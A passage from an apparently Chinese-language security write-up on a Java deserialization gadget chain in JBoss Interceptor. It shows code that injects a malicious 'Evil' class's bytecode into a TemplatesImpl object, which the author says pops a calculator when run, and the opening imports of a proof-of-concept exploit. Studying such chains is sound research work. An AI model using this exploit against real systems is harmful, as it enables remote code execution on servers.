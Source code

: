 ```
        name.setAccessible(true);
        bytecodes.setAccessible(true);
        tfactory.setAccessible(true);
        byte[][] myBytes = new byte[1][];
        myBytes[0] = Repository.lookupClass(Evil.class).getBytes(); // 这个恶意类必须继承`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`抽象类, 之前有分析过, 就不提及了.
        bytecodes.set(templates, myBytes);
        name.set(templates, &#34;&#34;);
        tfactory.set(templates, new TransformerFactoryImpl());
        return templates;
    }
}

```

  
运行即可弹出计算器.  
### org.jboss.interceptor.proxy.InterceptorMethodHandler -> 链路开头 & 链路末尾 & 实现 Serializable  
  
上面两个案例实际上都会在
```
org.jboss.interceptor.proxy.InterceptorMethodHandler
```

  
类中满足某些分支的情况下进行主动调用
```
SimpleInterceptionChain::invokeNextInterceptor
```

  
, 但是前提是需要清晰的划分我们应该定义哪些成员属性, 那些成员属性的实例化方式是什么, 变量与变量之间存在哪些联系, 绕过什么样的if分支才能走到最终的
```
sink点
```

  
, 这才是最终要考虑的地方, 举个例子:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn6uT0Y9G3mhXadKvVPGSmCsALP3XWFLZl0aTa630SkkoSax9kumZg7EemR89icb5icZGic9Ioq1TYN0w/640?wx_fmt=png&from=appmsg "")  
  
整个过程无意义且枯燥, 那么就不再仔细研究他们之间的关系了.  
#### POC  
  
给出如下POC:  

```
package com.heihu577;

import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.jboss.interceptor.builder.BuildableInterceptionModel;
import org.jboss.interceptor.builder.InterceptionModelBuilder;
import org.jboss.interceptor.builder.MethodReference;
import org.jboss.interceptor.proxy.DefaultInvocationContextFactory;
import org.jboss.interceptor.proxy.DirectClassInterceptorInstantiator;
import org.jboss.interceptor.proxy.InterceptorMethodHandler;
import org.jboss.interceptor.reader.ClassMetadataInterceptorReference;
import org.jboss.interceptor.reader.DefaultMethodMetadata;
import org.jboss.interceptor.reader.ReflectiveClassMetadata;
import org.jboss.interceptor.reader.SimpleInterceptorMetadata;
import org.jboss.interceptor.spi.instance.InterceptorInstantiator;
import org.jboss.interceptor.spi.metadata.ClassMetadata;
import org.jboss.interceptor.spi.metadata.InterceptorReference;
import org.jboss.interceptor.spi.metadata.MethodMetadata;
import org.jboss.interceptor.spi.model.InterceptionModel;
```